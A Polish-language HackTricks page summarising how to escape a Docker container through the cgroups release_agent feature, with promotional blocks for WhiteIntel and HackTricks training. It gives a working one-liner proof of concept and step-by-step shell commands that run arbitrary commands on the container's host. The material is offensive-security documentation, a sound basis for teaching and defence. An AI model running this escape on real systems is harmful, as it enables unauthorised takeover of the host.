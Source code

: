 # Ucieczka z cgroups Docker release\_agent

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) to wyszukiwarka zasilana przez **dark web**, która oferuje **darmowe** funkcje do sprawdzania, czy firma lub jej klienci zostali **skompromitowani** przez **złośliwe oprogramowanie kradnące dane**.

Ich głównym celem WhiteIntel jest zwalczanie przejęć kont i ataków ransomware wynikających z złośliwego oprogramowania kradnącego informacje.

Możesz odwiedzić ich stronę internetową i wypróbować ich silnik za **darmo** na:

{% embed url="https://whiteintel.io" %}

***

**Aby uzyskać więcej szczegółów, zajrzyj do** [**oryginalnego posta na blogu**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** To tylko streszczenie:

Początkowy PoC:
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
Dowód koncepcji (PoC) demonstruje metodę wykorzystania cgroups poprzez utworzenie pliku `release_agent` i wywołanie go w celu wykonania dowolnych poleceń na hoście kontenera. Oto podział kroków zaangażowanych:

1. **Przygotuj środowisko:**
* Utwórz katalog `/tmp/cgrp` jako punkt montowania dla cgroup.
* Kontroler cgroup RDMA jest montowany do tego katalogu. W przypadku braku kontrolera RDMA zaleca się użycie kontrolera cgroup `memory` jako alternatywy.
```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
2. **Skonfiguruj podrzędny Cgroup:**
* Wewnątrz zamontowanego katalogu cgroup tworzony jest podrzędny cgroup o nazwie "x".
* Włączone są powiadomienia dla cgroup "x", poprzez zapisanie wartości 1 do pliku notify\_on\_release.
```shell
echo 1 > /tmp/cgrp/x/notify_on_release
```
3. **Skonfiguruj agenta wydania:**
* Ścieżka kontenera na hoście jest pobierana z pliku /etc/mtab.
* Następnie plik release\_agent cgroup jest skonfigurowany do wykonania skryptu o nazwie /cmd znajdującego się w uzyskanej ścieżce hosta.
```shell
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
4. **Utwórz i skonfiguruj skrypt /cmd:**
* Skrypt /cmd jest tworzony wewnątrz kontenera i skonfigurowany do wykonania polecenia ps aux, przekierowując wynik do pliku o nazwie /output w kontenerze. Określona jest pełna ścieżka /output na hoście.
```shell
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```
5. **Wywołaj atak:**
* Proces zostaje uruchomiony w obrębie grupy potomnej "x" i natychmiast zostaje zakończony.
* To powoduje uruchomienie `release_agent` (skryptu /cmd), który wykonuje polecenie ps aux na hoście i zapisuje wynik do /output wewnątrz kontenera.
```shell
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) to wyszukiwarka zasilana przez **dark web**, która oferuje **darmowe** funkcje do sprawdzenia, czy firma lub jej klienci nie zostali **skompromitowani** przez **złośliwe oprogramowanie kradnące informacje**.

Ich głównym celem WhiteIntel jest zwalczanie przejęć kont i ataków ransomware wynikających z złośliwego oprogramowania kradnącego informacje.

Możesz odwiedzić ich stronę internetową i wypróbować ich silnik za **darmo** pod adresem:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
